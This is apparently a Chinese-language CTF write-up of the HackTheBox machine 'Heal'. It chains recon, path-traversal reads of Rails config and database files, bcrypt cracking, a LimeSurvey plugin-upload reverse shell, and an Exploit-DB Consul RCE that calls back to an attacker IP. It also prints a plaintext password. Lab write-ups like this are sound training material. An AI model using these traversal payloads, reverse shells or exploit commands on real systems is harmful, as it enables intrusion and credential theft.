## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Heal  
❯ nmap -sSCV -Pn heal.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 17:29 CST
Nmap scan report for heal.htb (10.10.11.46)
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Heal
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.40 seconds
```

开放端口：`22`、`80`

## SubdomainFuzz

```
[root@kali] /home/kali/Desktop  
❯ ffuf -u http://heal.htb/ -w ./fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.heal.htb"  -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://heal.htb/
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/subdomainDicts/main.txt
 :: Header           : Host: FUZZ.heal.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

api      [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 127ms]
:: Progress: [167378/167378] :: Job [1/1] :: 446 req/sec :: Duration: [0:05:42] :: Errors: 0 ::
```

存在域名：`api.heal.htb`，添加到`/etc/hosts`



在`heal.htb/survey`路由下发现一个子域名：`take-survey.heal.htb`



添加到`/etc/hosts`，访问如下发现`Administrator`的用户名：`ralph`



## Dirsearch

```
[root@kali] /home/kali/Desktop  
❯ dirsearch -u "http://take-survey.heal.htb/index.php/" -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_take-survey.heal.htb/_index.php__24-12-15_19-42-06.txt

Target: http://take-survey.heal.htb/

[19:42:06] Starting: index.php/                                                                                                                             
[19:42:19] 200 - 75KB - /index.php/admin/mysql/index.php                  
[19:42:23] 200 - 74KB - /index.php/apc/index.php                          
[19:42:42] 200 - 74KB - /index.php/pma/index.php                          
[19:42:54] 200 - 75KB - /index.php/web/phpMyAdmin/index.php               
                                                                             
Task Completed          
```

访问`/index.php/admin`会自动跳转到一个登陆界面

`http://take-survey.heal.htb/index.php/admin/authentication/sa/login`



## ReadAnyFiles

任意注册一个账号，然后进入`http://heal.htb/resume`

使用`burpsuite`打开`intercept`，然后点击`EXPORT AS PDF`

在放行到第三个包的时候发现一个`/download`路由，可以进行任意文件读取

```
GET /download?filename=../../../../../etc/passwd
```



发现两个用户的用户名：`ralph`、`ron`



由于我们发现了该网站使用了`Ruby on Rails`，经过搜索得到其`config`的文件地址

```
GET /download?filename=../../config/database.yml
```



将其下载下来

```
GET /download?filename=../../storage/development.sqlite3 
```

得到了`ralph`的密码`hash`



使用`John`破解密码

```
[root@kali] /home/kali/Heal  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                               ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:08 0.00% (ETA: 2024-12-19 09:21) 0g/s 53.66p/s 53.66c/s 53.66C/s 12345678910..christina
147258369        (?)     
1g 0:00:00:09 DONE (2024-12-15 20:25) 0.1063g/s 53.61p/s 53.61c/s 53.61C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

无法进行`SSH`登录，不过可以登录到网站后台



## LimeSurvey-RCE

在Github上找到一个脚本

\[github author="Y1LD1R1M-1337" project="Limesurvey-RCE"\]\[/github\]

需要进行如下修改，一定要添加一个`compatibility`的版本为`6.0`和网站匹配，否则无法上传成功



修改反弹`SHELL`里的`IP`和端口号



然后进行打包

```
❯ zip hyh_zip config.xml php-rev.php
```

上传并且激活插件



然后访问`http://take-survey.heal.htb/upload/plugins/hyh_hacker/php-rev.php`路径即可反弹`shell`



```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在`/var/www/limesurvey/application/config/config.php`中获取到数据库的用户名和密码



这里离谱的居然是，进去查找到`users`表里面只存在一个`ralph`用户，他的密码`hash`爆破出来和上面的`147258369`是一模一样的。也就是说数据库中没有可以利用的东西。

不过这里的密码可以让`ron`用户进行`ssh`登录，而不是`ralph`😡

```
username：ron
password：AdmiDi0_pA$$w0rd
```



## Privilege Escalation

上传`Linpeas.sh`，发现开放了许多端口



将`8500`端口通过`ssh`转发出来

```
[root@kali] /home/kali/Heal  
❯ ssh -L 8500:127.0.0.1:8500 ron@heal.htb 
```



在网页源码里发现了版本信息：`1.19.2`



通过查找版本漏洞，我在`Exploit-DB`中发现了可以利用的脚本

- [Hashicorp Consul v1.0 - Remote Command Execution (RCE) - Multiple remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/51117)

```
[root@kali] /home/kali/Heal  
❯ python exploit.py 127.0.0.1 8500 10.10.16.29 6666 0

[+] Request sent successfully, check your listener
```

设置`NC`监听得到反弹`SHELL`



一开始我注意到这个脚本里面存在一个`ACL token`的参数，还尝试过`ssh`后用命令行生成一个`token`，但失败了。然后偶然发现这个`token`对于本机来说好像并没有什么效果，随便赋值都能成功执行脚本。

## Summary

User：在遇到下载文件的路由时候，要仔细检查是否存在路径可以穿越，比如本机中的`/download`，就存在任意文件读取，配合`Rails`的`Config`文件地址，将数据库信息下载到成功进入后台，然后上传恶意插件`Webshell`，这个在之前的一个机器上也是遇到过的，最后反弹`Shell`读取配置文件`SSH`登录拿到`User`。

Root：`Linux`机器相较于`Windows`机器就没有那么多域内的一些权限问题，往往是一些可执行文件的权限不正确或者是内网端口服务的一些`Web`漏洞。本机的`Root`就是通过转发`8500`端口到`kali`，然后查找历史版本的`CVE`漏洞，最后反弹`Shell`拿到`Root`权限。
